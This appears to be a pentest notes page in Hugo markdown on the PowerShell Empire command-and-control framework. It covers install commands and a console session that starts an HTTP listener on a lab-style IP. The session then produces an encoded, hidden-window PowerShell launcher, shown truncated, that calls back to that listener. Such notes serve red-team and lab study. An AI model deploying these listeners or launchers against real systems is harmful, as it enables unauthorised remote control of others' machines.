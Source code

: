 ```yaml
---
### The title for the content.
title : "empire"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "empire"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "empire description."
### The datetime assigned to this page.
date : 2020-03-11T10:40:17+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "empire"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## empire

### Install

#### System

```bash
git clone https://github.com/EmpireProject/Empire
cd Empire
sudo ./setup/install.sh
```

#### Docker

```bash
docker pull empireproject/empire
```

### Examples

#### Reset DB

```bash
/empire/setup/reset.sh
```

#### setup basic listener and gen launcher

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.24:80
(Empire: listeners/http) > set BindIP 10.10.14.24
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher
[!] Please enter 'launcher <language> <listenerName>'
(Empire: listeners) > launcher powershell http
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAF.....kAEsAKQApAHwASQBFAFgA
```

### Also see

* [Github project](https://github.com/EmpireProject/Empire)
* [Quickstart](http://www.powershellempire.com/?page_id=110)
* [Documentation](http://www.powershellempire.com/?page_id=83)
